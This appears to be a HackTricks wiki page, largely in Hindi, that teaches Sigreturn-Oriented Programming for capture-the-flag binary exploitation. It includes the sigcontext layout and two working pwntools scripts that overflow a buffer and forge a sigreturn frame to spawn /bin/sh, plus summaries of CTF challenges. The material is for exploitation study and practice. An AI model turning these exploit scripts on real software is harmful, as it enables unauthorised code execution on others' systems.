 # SROP - Sigreturn-Oriented Programming

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**`Sigreturn`** एक विशेष **syscall** है जिसका मुख्य उपयोग एक सिग्नल हैंडलर के निष्पादन के बाद सफाई करने के लिए किया जाता है। सिग्नल वे व्यवधान हैं जो ऑपरेटिंग सिस्टम द्वारा एक प्रोग्राम को भेजे जाते हैं, अक्सर यह संकेत देने के लिए कि कोई असाधारण स्थिति उत्पन्न हुई है। जब एक प्रोग्राम एक सिग्नल प्राप्त करता है, तो यह सिग्नल को संभालने के लिए अस्थायी रूप से अपने वर्तमान कार्य को रोक देता है, एक **सिग्नल हैंडलर** के साथ, जो सिग्नल को संभालने के लिए डिज़ाइन किया गया एक विशेष फ़ंक्शन है।

सिग्नल हैंडलर के समाप्त होने के बाद, प्रोग्राम को **अपने पिछले स्थिति पर लौटने** की आवश्यकता होती है जैसे कि कुछ भी नहीं हुआ। यहीं पर **`sigreturn`** काम आता है। यह प्रोग्राम को **सिग्नल हैंडलर से लौटने** में मदद करता है और प्रोग्राम की स्थिति को बहाल करता है, सिग्नल हैंडलर द्वारा उपयोग किए गए स्टैक फ्रेम (मेमोरी का वह भाग जो फ़ंक्शन कॉल और स्थानीय चर को संग्रहीत करता है) को साफ करके।

दिलचस्प बात यह है कि **`sigreturn`** प्रोग्राम की स्थिति को कैसे बहाल करता है: यह **CPU के सभी रजिस्टर मानों को स्टैक पर संग्रहीत करके** ऐसा करता है। जब सिग्नल अब अवरुद्ध नहीं होता है, **`sigreturn` इन मानों को स्टैक से पॉप करता है**, प्रभावी रूप से CPU के रजिस्टर को उनके उस स्थिति में रीसेट करता है जब सिग्नल को संभाला गया था। इसमें स्टैक पॉइंटर रजिस्टर (RSP) शामिल है, जो स्टैक के वर्तमान शीर्ष की ओर इशारा करता है।

{% hint style="danger" %}
ROP श्रृंखला से **`sigreturn`** syscall को कॉल करना और **रजिस्ट्रियों के मानों को जोड़ना** जो हम इसे **स्टैक** में लोड करना चाहते हैं, यह संभव बनाता है कि हम सभी रजिस्टर मानों को **नियंत्रित** कर सकें और इसलिए **कॉल** कर सकें, उदाहरण के लिए, syscall `execve` के साथ `/bin/sh`।
{% endhint %}

ध्यान दें कि यह एक **प्रकार का Ret2syscall** होगा जो अन्य Ret2syscalls को कॉल करने के लिए पैरामीटर को नियंत्रित करना बहुत आसान बनाता है:

{% content-ref url="../rop-syscall-execv/" %}
[rop-syscall-execv](../rop-syscall-execv/)
{% endcontent-ref %}

यदि आप जिज्ञासु हैं, तो यह **sigcontext संरचना** है जो स्टैक में संग्रहीत होती है ताकि बाद में मानों को पुनर्प्राप्त किया जा सके (चित्र [**यहां**](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html) से):
```
+--------------------+--------------------+
| rt_sigeturn()      | uc_flags           |
+--------------------+--------------------+
| &uc                | uc_stack.ss_sp     |
+--------------------+--------------------+
| uc_stack.ss_flags  | uc.stack.ss_size   |
+--------------------+--------------------+
| r8                 | r9                 |
+--------------------+--------------------+
| r10                | r11                |
+--------------------+--------------------+
| r12                | r13                |
+--------------------+--------------------+
| r14                | r15                |
+--------------------+--------------------+
| rdi                | rsi                |
+--------------------+--------------------+
| rbp                | rbx                |
+--------------------+--------------------+
| rdx                | rax                |
+--------------------+--------------------+
| rcx                | rsp                |
+--------------------+--------------------+
| rip                | eflags             |
+--------------------+--------------------+
| cs / gs / fs       | err                |
+--------------------+--------------------+
| trapno             | oldmask (unused)   |
+--------------------+--------------------+
| cr2 (segfault addr)| &fpstate           |
+--------------------+--------------------+
| __reserved         | sigmask            |
+--------------------+--------------------+
```
For a better explanation check also:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## उदाहरण

आप [**यहाँ एक उदाहरण पा सकते हैं**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop) जहाँ सिगनरटर्न के लिए कॉल ROP के माध्यम से बनाई गई है (rxa में मान `0xf` डालकर), हालाँकि यह वहाँ से अंतिम एक्सप्लॉइट है:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)         # 0xf is the number of the syscall sigreturn
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
Check also the [**exploit from here**](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html) जहाँ बाइनरी पहले से ही `sigreturn` को कॉल कर रहा था और इसलिए इसे **ROP** के साथ बनाने की आवश्यकता नहीं है:
```python
from pwn import *

# Establish the target
target = process("./small_boi")
#gdb.attach(target, gdbscript = 'b *0x40017c')
#target = remote("pwn.chal.csaw.io", 1002)

# Establish the target architecture
context.arch = "amd64"

# Establish the address of the sigreturn function
sigreturn = p64(0x40017c)

# Start making our sigreturn frame
frame = SigreturnFrame()

frame.rip = 0x400185 # Syscall instruction
frame.rax = 59       # execve syscall
frame.rdi = 0x4001ca # Address of "/bin/sh"
frame.rsi = 0x0      # NULL
frame.rdx = 0x0      # NULL

payload = "0"*0x28 # Offset to return address
payload += sigreturn # Function with sigreturn
payload += str(frame)[8:] # Our sigreturn frame, adjusted for the 8 byte return shift of the stack

target.sendline(payload) # Send the target payload

# Drop to an interactive shell
target.interactive()
```
## अन्य उदाहरण और संदर्भ

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)
* [https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html](https://guyinatuxedo.github.io/16-srop/backdoor\_funsignals/index.html)
* असेंबली बाइनरी जो **स्टैक पर लिखने** की अनुमति देती है और फिर **`sigreturn`** syscall को कॉल करती है। स्टैक पर एक [**ret2syscall**](../rop-syscall-execv/) को **sigreturn** संरचना के माध्यम से लिखना संभव है और बाइनरी की मेमोरी के अंदर जो फ्लैग है उसे पढ़ना संभव है।
* [https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html](https://guyinatuxedo.github.io/16-srop/csaw19\_smallboi/index.html)
* असेंबली बाइनरी जो **स्टैक पर लिखने** की अनुमति देती है और फिर **`sigreturn`** syscall को कॉल करती है। स्टैक पर एक [**ret2syscall**](../rop-syscall-execv/) को **sigreturn** संरचना के माध्यम से लिखना संभव है (बाइनरी में स्ट्रिंग `/bin/sh` है)।
* [https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html](https://guyinatuxedo.github.io/16-srop/inctf17\_stupidrop/index.html)
* 64 बिट्स, कोई relro नहीं, कोई canary नहीं, nx, कोई pie नहीं। `gets` फ़ंक्शन का उपयोग करते हुए सरल बफर ओवरफ्लो जो [**ret2syscall**](../rop-syscall-execv/) को निष्पादित करता है। ROP श्रृंखला `/bin/sh` को `.bss` में लिखती है `gets` को फिर से कॉल करके, यह **`alarm`** फ़ंक्शन का दुरुपयोग करती है ताकि eax को `0xf` पर सेट किया जा सके ताकि एक **SROP** को कॉल किया जा सके और एक शेल निष्पादित किया जा सके।
* [https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html](https://guyinatuxedo.github.io/16-srop/swamp19\_syscaller/index.html)
* 64 बिट्स असेंबली प्रोग्राम, कोई relro नहीं, कोई canary नहीं, nx, कोई pie नहीं। प्रवाह स्टैक में लिखने, कई रजिस्टरों को नियंत्रित करने, और एक syscall को कॉल करने की अनुमति देता है और फिर यह `exit` को कॉल करता है। चयनित syscall एक `sigreturn` है जो रजिस्टर सेट करेगा और `eip` को एक पूर्व syscall निर्देश को कॉल करने के लिए स्थानांतरित करेगा और बाइनरी स्पेस को `rwx` पर सेट करने के लिए `memprotect` को चलाएगा और बाइनरी स्पेस में ESP को सेट करेगा। प्रवाह का पालन करते हुए, प्रोग्राम फिर से ESP में पढ़ने को कॉल करेगा, लेकिन इस मामले में ESP अगली निर्देश की ओर इशारा करेगा इसलिए एक शेलकोड पास करना इसे अगली निर्देश के रूप में लिखेगा और इसे निष्पादित करेगा।
* [https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/sigreturn-oriented-programming-srop#disable-stack-protection](https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/code-reuse-attack/sigreturn-oriented-programming-srop#disable-stack-protection)
* SROP का उपयोग उस स्थान को निष्पादन विशेषाधिकार (memprotect) देने के लिए किया जाता है जहाँ एक शेलकोड रखा गया था।

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
